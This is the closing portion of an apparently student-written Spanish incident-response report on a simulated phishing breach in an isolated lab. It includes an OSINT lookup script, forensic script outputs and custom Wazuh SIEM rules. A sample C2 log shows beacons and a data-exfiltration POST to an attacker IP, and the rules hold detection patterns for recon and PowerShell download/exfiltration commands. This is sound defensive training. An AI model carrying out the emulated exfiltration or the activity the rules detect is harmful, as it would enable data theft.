    if re.fullmatch(r"[A-Fa-f0-9]{32}", valor):
        return "hash"      # MD5
    if re.fullmatch(r"[A-Fa-f0-9]{40}", valor):
        return "hash"      # SHA1
    if re.fullmatch(r"[A-Fa-f0-9]{64}", valor):
        return "hash"      # SHA256
    return "dominio"


def http_get(url: str, headers: dict) -> dict:
    req = urllib.request.Request(url, headers=headers)
    try:
        with urllib.request.urlopen(req, timeout=15) as r:
            return json.loads(r.read().decode())
    except urllib.error.HTTPError as e:
        return {"error": f"HTTP {e.code}: {e.reason}"}
    except Exception as e:
        return {"error": str(e)}


def consulta_virustotal(ioc: str, tipo: str) -> None:
    print("\n=== VirusTotal ===")
    if "PON_AQUI" in VT_API_KEY:
        print("  [!] Falta la clave VT_API_KEY (gratuita en virustotal.com).")
        return
    ruta = {"ip": "ip_addresses", "dominio": "domains", "hash": "files"}[tipo]
    url = f"https://www.virustotal.com/api/v3/{ruta}/{ioc}"
    data = http_get(url, {"x-apikey": VT_API_KEY})
    if "error" in data:
        print("  [!]", data["error"]); return
    stats = data.get("data", {}).get("attributes", {}).get("last_analysis_stats", {})
    mal = stats.get("malicious", 0); sus = stats.get("suspicious", 0)
    total = sum(stats.values()) if stats else 0
    print(f"  Deteccciones maliciosas: {mal}/{total}  (sospechosas: {sus})")
    veredicto = "MALICIOSO" if mal > 0 else ("SOSPECHOSO" if sus > 0 else "limpio/desconocido")
    print(f"  Veredicto: {veredicto}")


def consulta_abuseipdb(ioc: str) -> None:
    print("\n=== AbuseIPDB ===")
    if "PON_AQUI" in ABUSEIPDB_API_KEY:
        print("  [!] Falta la clave ABUSEIPDB_API_KEY (gratuita en abuseipdb.com).")
        return
    url = f"https://api.abuseipdb.com/api/v2/check?ipAddress={ioc}&maxAgeInDays=90"
    data = http_get(url, {"Key": ABUSEIPDB_API_KEY, "Accept": "application/json"})
    if "error" in data:
        print("  [!]", data["error"]); return
    d = data.get("data", {})
    print(f"  Puntuacion de abuso: {d.get('abuseConfidenceScore', '?')}%")
    print(f"  Pais: {d.get('countryCode', '?')}  ISP: {d.get('isp', '?')}")
    print(f"  Denuncias totales: {d.get('totalReports', '?')}")


def main():
    if len(sys.argv) != 2:
        print(__doc__); sys.exit(1)
    ioc = sys.argv[1].strip()
    tipo = tipo_ioc(ioc)
    print(f"[*] IOC: {ioc}  ->  tipo detectado: {tipo}")
    consulta_virustotal(ioc, tipo)
    if tipo == "ip":
        consulta_abuseipdb(ioc)
    print("\n[+] Consulta OSINT finalizada.")


if __name__ == "__main__":
    main()
```

### Salidas reales de la ejecución (`salidas-scripts.txt`)

Se recogen a continuación las salidas reales obtenidas al ejecutar los scripts durante las pruebas:

```text
===========================================================================
 SALIDAS REALES DE LOS SCRIPTS PROPIOS — Incidente Nexora S.L.
 Autor: L.F. Arrosquipa  |  Laboratorio aislado 10.10.10.0/24
 Nota: las claves API se han sustituido por <REDACTADO>; se pasan por
 variables de entorno y NO se suben al repositorio.
===========================================================================


###########################################################################
# 3.2  CADENA DE CUSTODIA  (cadena-custodia.py)
###########################################################################

$ python3 cadena-custodia.py add ~/gophish/config.json --quien "L.F. Arrosquipa" --desc "Config de GoPhish (evidencia)"
$ python3 cadena-custodia.py add ~/gophish/gophish.db  --quien "L.F. Arrosquipa" --desc "Base de datos de la campaña de phishing"
$ python3 cadena-custodia.py list
$ python3 cadena-custodia.py verify ~/gophish/config.json

[+] Evidencia registrada: config.json
    SHA-256: c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
[+] Evidencia registrada: gophish.db
    SHA-256: 1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
1. config.json  (2026-11-15T00:08:03, L.F. Arrosquipa)
    SHA-256: c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
2. gophish.db   (2026-11-15T00:08:03, L.F. Arrosquipa)
    SHA-256: 1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
[OK] config.json
    Registrado: c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
    Actual:     c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
    => INTEGRIDAD INTACTA


###########################################################################
# 3.4  ANÁLISIS DE LAS CONEXIONES DEL C2  (analizar-conexiones.py)
###########################################################################

$ cat > c2.log <<'EOF'
10.10.10.50 - - [14/Nov/2026 23:37:32] "GET /beacon?id=1 HTTP/1.1" 200 -
10.10.10.50 - - [14/Nov/2026 23:37:34] "GET /beacon?id=2 HTTP/1.1" 200 -
10.10.10.50 - - [14/Nov/2026 23:37:36] "GET /beacon?id=3 HTTP/1.1" 200 -
10.10.10.50 - - [14/Nov/2026 23:37:38] "GET /beacon?id=4 HTTP/1.1" 200 -
10.10.10.50 - - [14/Nov/2026 23:37:40] "POST /exfil_clientes.csv HTTP/1.1" 200 -
EOF
$ python3 analizar-conexiones.py c2.log

[*] Analizando c2.log  (IP atacante: 10.10.10.100)

== Origenes de las conexiones ==
  10.10.10.50     5 peticiones  <- VICTIMA

== Beacon / C2 (posible comunicacion con el atacante) ==
  [BEACON] 10.10.10.50 -> GET /beacon?id=1
  [BEACON] 10.10.10.50 -> GET /beacon?id=2
  [BEACON] 10.10.10.50 -> GET /beacon?id=3
  [BEACON] 10.10.10.50 -> GET /beacon?id=4
  Total beacons detectados: 4  (patron periodico = C2)

== Posible exfiltracion de datos ==
  [EXFIL] 10.10.10.50 -> POST /exfil_clientes.csv

[+] Conclusion:
    La victima estableció 4 conexiones de beacon y 1 de exfiltracion hacia 10.10.10.100.
    Indicadores compatibles con C2 (T1071) y exfiltracion (T1048).


###########################################################################
# 3.3  OSINT DE IOCs  (osint-lookup.py)  —  VirusTotal + AbuseIPDB
###########################################################################

$ export VT_API_KEY="<REDACTADO>"
$ export ABUSEIPDB_API_KEY="<REDACTADO>"

# --- IP pública de ejemplo (demuestra IP -> AbuseIPDB + VirusTotal) ---
$ python3 osint-lookup.py 8.8.8.8

[*] IOC: 8.8.8.8  ->  tipo detectado: ip

== VirusTotal ==
  Detecciones maliciosas: 1/92  (sospechosas: 0)
  Veredicto: MALICIOSO

== AbuseIPDB ==
  Puntuacion de abuso: 0%
  Pais: US  ISP: Google LLC
  Denuncias totales: 190

[+] Consulta OSINT finalizada.

# --- Hash SHA-256 capturado por Sysmon (systeminfo.exe) -> VirusTotal ---
$ python3 osint-lookup.py A220A85750588F5B231FF8CB106BA5409EAABB85E3DD7278A98FCA907E171ED2

[*] IOC: A220A85750588F5B231FF8CB106BA5409EAABB85E3DD7278A98FCA907E171ED2  ->  tipo detectado: hash

== VirusTotal ==
  Detecciones maliciosas: 0/75  (sospechosas: 0)
  Veredicto: limpio/desconocido

[+] Consulta OSINT finalizada.


###########################################################################
# 3.2 (bis)  CÁLCULO DE HASHES / IOCs  (generar-iocs.py)
###########################################################################

$ python3 generar-iocs.py ~/gophish/

[+] 306 evidencias procesadas.
[+] Generados: iocs.csv  e  iocs.md

# --- Extracto representativo (lista completa en iocs.csv / iocs.md) ---
gophish             SHA256=d931718f3b1f0ee178457b668a2565b7c6faf68832437e5690f087cbb47b249b
config.json         SHA256=c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
gophish.db          SHA256=1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
gophish_admin.crt   SHA256=a8e1e78aec584f7ceb5a64c5bafa21e46189b68b138251c66e9336505ca3b236
VERSION             SHA256=f6ee69bf1c4b27a242266ccb5aeb4aa8c8306345b9ebe4ff7335b8c940452b81
README.md           SHA256=766b19175bfe530da595aa6609ad7b7d51fb3d666bbc84c9235a703f5bcafcb2
LICENSE             SHA256=b88193848775aad7ef1db3134f8f7323a1e8df4fa9d4c2b6a7c917d01481cc09
templates/login.html        SHA256=b9800af1453767b0e65eed3993996cce1152a4c1f281ef70b9f363abe4e5f658
templates/landing_pages.html SHA256=ca4190b1d8b4fe0f8086ba22e567eb59368e7d020fa6b112982a3647008c7132
# ... (296 ficheros más de la instalación de GoPhish sellados en iocs.csv/iocs.md)
```

## Anexo C: configuración de Wazuh (reglas personalizadas)

Referencia de la configuración del SIEM usada en el apartado 2. Wazuh se instala en modo todo-en-uno sobre la VM `SRV-SIEM` (`10.10.10.20`) y se le añaden reglas propias que convierten la actividad del atacante en alertas con su técnica MITRE asociada.

### 1. Instalación (todo en uno)

```bash
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
sudo bash ./wazuh-install.sh -a -i -o
```

Al terminar, el instalador muestra el usuario `admin` y su contraseña. El panel queda accesible en `https://10.10.10.20`.

### 2. Reglas personalizadas

Se editan en `/var/ossec/etc/rules/local_rules.xml` del gestor. Combinadas con la telemetría de Sysmon, disparan las alertas visibles en el panel durante la simulación del apartado 3:

```xml
<group name="nexora,lab,">

  <!-- 100200: comando de reconocimiento ejecutado -->
  <rule id="100200" level="10">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(whoami|net user|net group|net share|systeminfo)</field>
    <description>NEXORA: Comando de reconocimiento ejecutado</description>
    <mitre><id>T1033</id><id>T1087</id></mitre>
  </rule>

  <!-- 100201: PowerShell de descarga / exfiltracion -->
  <rule id="100201" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(Invoke-WebRequest|Compress-Archive|Invoke-RestMethod)</field>
    <description>NEXORA: PowerShell de descarga/exfiltracion</description>
    <mitre><id>T1059.001</id><id>T1048</id></mitre>
  </rule>

  <!-- 100202: conexion saliente a la IP del atacante (C2) -->
  <rule id="100202" level="12">
    <if_group>sysmon_event3</if_group>
    <field name="win.eventdata.destinationIp">10.10.10.100</field>
    <description>NEXORA: Conexion saliente a la IP del atacante (C2)</description>
    <mitre><id>T1071</id></mitre>
  </rule>

</group>
```

### 3. Aplicar los cambios

```bash
sudo systemctl restart wazuh-manager
```
---

## Conclusiones

En este trabajo he recorrido el **ciclo completo de gestión de un incidente** sobre un laboratorio realista y con datos ficticios, uniendo la teoría del módulo con una ejecución práctica de principio a fin.

En **prevención** identifiqué los riesgos y creé materiales de concienciación propios; el simulacro me dio una métrica contundente, porque los dos empleados objetivo abrieron el correo y uno entregó sus credenciales, lo que demuestra por qué la formación es la primera barrera. En **detección** monté un SIEM (Wazuh) con Sysmon y reglas propias mapeadas a MITRE ATT&CK, y convertí la actividad del sistema en alertas accionables con detalle forense. En **investigación** reproduje el ataque por emulación —sin malware real— y lo analicé con scripts propios que cubren la integridad de las evidencias, la cadena de custodia, el análisis de las conexiones C2 y la reputación OSINT de los indicadores. En **respuesta** automaticé la contención respetando el orden de volatilidad y definí una erradicación fiable por restauración y revocación de credenciales. Y en **notificación** apliqué el marco legal (AEPD, 72 horas) e identifiqué los organismos de apoyo.

Mi principal **conclusión** es que el factor humano es a la vez el eslabón más débil y el más rentable de reforzar; que la detección temprana exige tener la telemetría y la correlación preparadas *antes* del incidente; y que la trazabilidad de la evidencia (hash y cadena de custodia) es lo que convierte una respuesta improvisada en una respuesta defendible. Como mejoras propongo MFA, mínimo privilegio, bloqueo de macros, segmentación de red y un afinado continuo de las reglas del SIEM.

## Fuentes consultadas

- **Wazuh** — Documentación oficial (instalación *all-in-one*, agentes, reglas locales y SCA): <https://documentation.wazuh.com>
- **MITRE ATT&CK** — Matriz de técnicas (T1566, T1059, T1071, T1048, T1033, T1087, T1056): <https://attack.mitre.org>
- **Sysmon (Sysinternals)** — Monitorización de endpoint: <https://learn.microsoft.com/sysinternals/downloads/sysmon>
- **Configuración de Sysmon (SwiftOnSecurity):** <https://github.com/SwiftOnSecurity/sysmon-config>
- **GoPhish** — Framework de phishing: <https://getgophish.com/documentation/>
- **MailHog** — Captura de correo SMTP de pruebas: <https://github.com/mailhog/MailHog>
- **AEPD** — Notificación de brechas de datos (art. 33-34 RGPD): <https://www.aepd.es>
- **INCIBE-CERT:** <https://www.incibe.es/incibe-cert>
- **CCN-CERT:** <https://www.ccn-cert.cni.es>
- **VirusTotal:** <https://www.virustotal.com> · **AbuseIPDB:** <https://www.abuseipdb.com>

> *Las URL se incluyen como referencia documental; se consultaron durante el desarrollo del trabajo en noviembre de 2026.*
